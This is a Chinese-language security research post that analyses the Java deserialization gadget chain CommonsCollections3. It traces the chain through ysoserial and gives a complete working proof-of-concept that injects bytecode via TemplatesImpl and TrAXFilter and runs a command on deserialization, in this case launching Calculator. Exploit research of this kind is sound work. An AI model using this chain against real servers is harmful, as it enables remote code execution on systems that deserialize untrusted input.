



# CommonsCollections3利用链分析

## 前言

`CommonsCollections3`利用环境如下：

```
CommonsCollections 3.1 - 3.2.1
jdk 8u71 版本之前
```

先看利用链：
```java
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                Map(Proxy).entrySet()
                    AnnotationInvocationHandler.invoke()
                        LazyMap.get()
                            ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

看到这个利用链，前半部分是`CommonsCollections1`的内容，而后半部分则是`CommonsCollection2`的内容，不过与`CommonsCollections2`不同的是，不再利用`invokerTransformer`类，而是使用`InstantiateTransformer`类。

## 利用链分析

翻一下`ysoserial`中的源码


可以看见这次`transformers`由`ConstantTransformer`和`InstantiateTransformer`组成，其中`ConstantTransformer`传入的类为`TrAXFilter`，先跟进该类看看源码


发现该类会调用`newTransformer()`方法，接着继续跟进看`InstantiateTransformer()`


在`InstantiateTransformer#transform()`方法中，通过`newInstance()`方法进行实例化，而这里的`input`则是前面构造的`TrAXFilter`类，因此可以触发`TransformerImpl#newTransformer()`方法加载构造的恶意字节码进而命令执行。

在给出的利用链中可以看到触发`xxx.transform()`方法用的是前面`CommonsCollections1`中的`LazyMap.get()`方法，因此可以编写出 POC 了
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections3 {
    public static void main(String[] args) throws Exception{
        CommonsCollections3 commonsCollections3 = new CommonsCollections3();
        commonsCollections3.serialize();
        commonsCollections3.unserialize();
    }

    public void serialize() throws Exception {
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes",targetByteCodes);
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);
        // 利用链
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

